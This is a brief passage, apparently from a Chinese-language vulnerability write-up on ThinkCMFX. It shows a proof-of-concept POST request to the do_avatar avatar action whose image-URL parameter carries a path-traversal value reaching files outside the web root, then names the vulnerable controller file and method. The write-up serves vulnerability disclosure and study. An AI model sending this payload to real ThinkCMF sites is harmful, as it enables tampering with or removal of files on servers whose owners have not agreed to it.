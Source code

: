 ```
url：http://thinkcmf.test/index.php?g=User&m=Profile&a=do_avatar
post:
mgurl=..\..\..\..\..\1.txt 
```

![image](img/080333cbe80c4239ef18a7dfa8bede95.png)

#### 0x03.2 漏洞原理

路径：ThinkCMFX\application\User\Controller\ProfileController.class.php
方法：blic function do_avatar(

![image](img/d0106ff5bd71b65216552ac4fb6914b6.png)
